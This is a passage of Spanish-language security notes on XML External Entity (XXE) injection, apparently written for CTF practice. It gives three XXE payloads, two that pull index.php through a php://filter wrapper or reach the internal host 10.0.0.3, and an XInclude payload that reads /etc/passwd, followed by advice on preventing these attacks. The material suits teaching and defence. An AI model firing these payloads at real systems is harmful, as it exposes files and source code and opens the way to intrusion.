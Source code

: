 ```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

XInclude:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## PREVENCION

Además de usar las bibliotecas XML más recientes, ciertas configuraciones XML para aplicaciones web pueden ayudar a reducir la posibilidad de explotación de XXE. Éstos incluyen:

-   Deshabilitar la referencia personalizada `Document Type Definitions (DTDs)`
-   Deshabilitar la referencia `External XML Entities`
-   Deshabilitar procesamiento de `Parameter Entity`
-   Deshabilitar soporte para `XInclude`
-   Prevenir`Entity Reference Loops`

Otra cosa que vimos fue la explotación XXE basada en errores. Por lo tanto, siempre debemos tener un manejo de excepciones adecuado en nuestras aplicaciones web







